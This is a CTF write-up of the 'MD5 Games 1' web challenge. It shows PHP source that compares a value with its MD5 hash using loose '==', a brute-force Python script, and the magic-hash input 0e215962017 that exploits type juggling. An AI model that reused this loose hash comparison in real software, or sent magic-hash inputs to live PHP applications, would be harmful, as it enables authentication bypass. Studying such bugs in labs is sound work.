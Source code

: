# MD5 Games 1, Web, 50pts

## Problem

10 years has passed since MD5 was broken, yet it is still frequently used in web applications, particularly PHP powered applications (maybe because there's a function after it?). Break it again to prove the point!

## Solution

We get simple form, where we can put our string.

![Screen caption](md51_001.png)

Also, we are able to see PHP source of the challenge:

```php
<?php
if (isset($_GET['src']))
    highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
    $md5=$_GET['md5'];
    if ($md5==md5($md5))
        echo "Wonderbubulous! Flag is [here goes a flag]"; //.require __DIR__."/flag.php";
    else
        echo "Nah... '",htmlspecialchars($md5),"' not the same as ",md5($md5);
}


?>
<p>Find a string that has a MD5 digest equal to itself!</p>
<form>
    <label>Answer: </label>
    <input type='text' name='md5' />
    <input type='submit' />
</form>

<a href='?src'>Source Code</a>
```

The only way we can get the flag is to pass string, which MD5 hash is exact the same as the string itself. Because such string does not exists (or I don't know it) we have to find another solution.

The only way to solve this challenge is to exploit PHP type juggling (as ```$md5``` is compared with ```md5($md5)``` with ```==``` instead of strict comparision operator ```===```).

The easiest way to do this is to provide a number starting with ```0e```, which MD5 hash begins with ```0e``` as well and contains only numbers. 

Thats because such comparision will return ```true```:


```php
// test.php
<?php
echo intval('0e123' == '0e999'); // result 1, which means TRUE
echo "\n";
echo intval('0e123' === '0e999'); // result 0, which means FALSE
echo "\n";
```

Result of above script will be:

```
bl4de:~/hacking/ctf/2017/HackDatKiwi_CTF_2017/md5games1 $ php -e test.php
1
0
```

As we can see, comparision with ```==``` returned ```true```.


So we have to find a number, starting from ```0e```, which MD5 hash will contain __only digits__ (both string and its MD5 hash have to be numbers typed in scientific notation), which is indicated by ```0e``` at the beginning; any sign other than digit will cause than one of them can't be casted to number and condition returns ```false```).


My approach to this challenge was to use simple brute force. I've created Python script, which iterates over incremented numbers with ```0e``` as a prefix, calculate MD5 hash of it and checks if that hash starts with ```0e``` and contains only digits after.

Not very efficient solution, but worked fine:

```python
#!/usr/bin/env python
import hashlib
import re

prefix = '0e'


def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        hashed_s = hashlib.md5(s).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print "[+] found! md5( {} ) ---> {}".format(s, hashed_s)
            print "[+] in {} iterations".format(iters)
            exit(0)

        if iters % 1000000 == 0:
            print "[+] current value: {}       {} iterations, continue...".format(s, iters)

breakit()

```


When I run it, after couple of minutes and __almost 216 millions__ of iterations, I get the string which gave me the flag:


```
[+] current value: 0e196999999       197000000 iterations, continue...
[+] current value: 0e197999999       198000000 iterations, continue...
[+] current value: 0e198999999       199000000 iterations, continue...
[+] current value: 0e199999999       200000000 iterations, continue...
[+] current value: 0e200999999       201000000 iterations, continue...
[+] current value: 0e201999999       202000000 iterations, continue...
[+] current value: 0e202999999       203000000 iterations, continue...
[+] current value: 0e203999999       204000000 iterations, continue...
[+] current value: 0e204999999       205000000 iterations, continue...
[+] current value: 0e205999999       206000000 iterations, continue...
[+] current value: 0e206999999       207000000 iterations, continue...
[+] current value: 0e207999999       208000000 iterations, continue...
[+] current value: 0e208999999       209000000 iterations, continue...
[+] current value: 0e209999999       210000000 iterations, continue...
[+] current value: 0e210999999       211000000 iterations, continue...
[+] current value: 0e211999999       212000000 iterations, continue...
[+] current value: 0e212999999       213000000 iterations, continue...
[+] current value: 0e213999999       214000000 iterations, continue...
[+] current value: 0e214999999       215000000 iterations, continue...
[+] found! md5( 0e215962017 ) ---> 0e291242476940776845150308577824
[+] in 215962018 iterations
bl4de:~/hacking/ctf/2017/HackDatKiwi_CTF_2017 $
```

I've just put __0e215962017__ into the form and:

![Screen caption](md51_002.png)
